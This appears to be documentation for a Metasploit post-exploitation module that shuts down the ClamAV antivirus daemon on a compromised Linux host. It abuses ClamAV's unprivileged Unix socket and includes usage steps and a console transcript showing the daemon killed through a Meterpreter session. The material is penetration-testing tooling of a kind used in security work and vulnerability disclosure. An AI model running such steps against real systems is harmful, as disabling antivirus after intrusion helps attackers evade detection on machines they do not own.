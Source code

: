 ### Description
This module will cause the ClamAV service to be shutoff on Linux hosts. 
ClamAV uses a Unix socket that allows non-privileged users to interact with the ClamAV daemon via utilities like "clamscan".
However, no additional checks are required to trigger ClamAV's shutdown.

## Verification Steps
### Shuting off ClamAV
  1. Launch `msfconsole`
  2. Get a Meterpreter shell on a Linux host that's also running ClamAV.
  3. Do: `use post/linux/manage/disable_clamav`
  4. Do: `set SESSION <session number on the Linux host>`
  6. Do: `exploit -j`
  7. The daemon should be shutoff.

## Scenarios
```
msf6 post(linux/manage/disable_clamav) > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  4         meterpreter x86/linux  dllcoolj @ 192.168.130.1  127.0.0.1:4444 -> 127.0.0.1:38360 (127.0.0.1)

msf6 post(linux/manage/disable_clamav) > show options

Module options (post/linux/manage/disable_clamav):

   Name                Current Setting        Required  Description
   ----                ---------------        --------  -----------
   CLAMAV_UNIX_SOCKET  /run/clamav/clamd.ctl  yes       ClamAV unix socket
   SESSION             4                      yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(linux/manage/disable_clamav) > ps -ef | grep 'clamd'
[*] exec: ps -ef | grep 'clamd'

clamav    132021       1 16 18:51 ?        00:00:09 clamd
dllcoolj  132533   71177  0 18:52 pts/3    00:00:00 sh -c ps -ef | grep 'clamd'
dllcoolj  132535  132533  0 18:52 pts/3    00:00:00 grep clamd
msf6 post(linux/manage/disable_clamav) > exploit -j
[*] Post module running as background job 10.
msf6 post(linux/manage/disable_clamav) >
[*] Checking file path /run/clamav/clamd.ctl exists and is writable...
[+] File does exist and is writable!
[*] Shutting down ClamAV!

msf6 post(linux/manage/disable_clamav) > ps -ef | grep 'clamd'
[*] exec: ps -ef | grep 'clamd'

dllcoolj  132927  132925  0 18:52 pts/3    00:00:00 grep clamd
```
